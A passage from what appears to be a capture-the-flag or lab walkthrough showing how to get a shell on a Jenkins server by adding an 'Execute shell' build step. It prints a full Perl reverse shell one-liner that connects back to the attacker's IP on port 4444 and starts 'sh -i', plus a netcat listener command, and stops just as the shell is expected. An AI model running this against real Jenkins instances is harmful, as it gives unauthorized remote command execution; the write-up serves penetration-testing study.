 <br>

From there you scroll down to the **Build** section and click **Add build step** then choose **Execute shell**.

<br>

![](images/internal9b.png)

<br>

Over on [**https://www.revshells.com/**](https://www.revshells.com/) you can find code for a **Perl** reverse shell that will work nicely here:

```
perl -e 'use Socket;$i="<MY IP>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

<br>

![](images/internal10.png)

<br>

Once you've added the shell code click on save which will bring you back to the main project page you created.

Set up your listener with `nc -nvlp 4444` and then back on the Jenkins page click the **Build Now** button on the left menu which should give you a shell:
